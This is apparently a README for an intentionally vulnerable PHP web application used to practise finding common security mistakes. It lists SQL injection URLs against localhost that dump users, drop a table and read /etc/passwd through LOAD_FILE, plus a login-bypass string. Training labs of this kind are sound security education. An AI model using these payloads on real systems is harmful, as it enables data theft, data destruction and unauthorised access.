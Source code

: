 # Hack This
A collection of common web programming mistakes.

This website, when set up and configured, contains a number of vulnerabilities that can be exploited, including:

* SQL Injection
* XSS (Cross-Site Scripting)
* Session Hijacking

## Setup
To set everything up, you'll need to: 

* Import the file `db.sql` into your database
* Modify the file `consts.php` to correspond to your database
* Access the site and get hacking

## Examples
Examples of vulnerabilities in this web application include:

### SQL Injection
In an SQL injection attack, malicious SQL statements are inserted into an entry field for execution (usually in a data-driven web application). 

* Get information for all users: 
    - `http://localhost/index.php?username=leocadio'%20or%20'1'='1`
    - `http://localhost/index.php?username=leocadio'%20or%20''='`
    - `http://localhost/index.php?id=1%20or%201=1`
* Drop (destroy) invoices table: 
    - `http://localhost/index.php?id=1;drop%20table%20invoices`
* Dump the password hash file from the server: 
    - Unix: `http://localhost/index.php?username='%20UNION%20SELECT%201,1,1,1,LOAD_FILE('/etc/passwd'),'1`
    - Windows: `http://localhost/index.php?username='%20UNION%20SELECT%201,1,1,1,LOAD_FILE('C:\\secrets.txt'),'1`
* Dump several things at once (oh boy): 
    - `http://localhost/index.php?username='%20UNION%20SELECT%201,2,3,4,5,'hello%20world`

### Bypass Login (SQL Injection)
It's possible to bypass login completely (logging in as whoever you like) by adding an always-true condition to the password check:

```
foo' or '1'='1
```

## Acknowledgements
This is heavily based on the [php-sploits](https://github.com/jadz/php-sploits) repository by [Jared Mooring](https://github.com/jadz) and [Allan Shone](https://github.com/CerealBoy). Find the slides for their [SydPHP](https://github.com/sydphp) talk [here](http://www.slideshare.net/CerealBoy/sydphp-security).
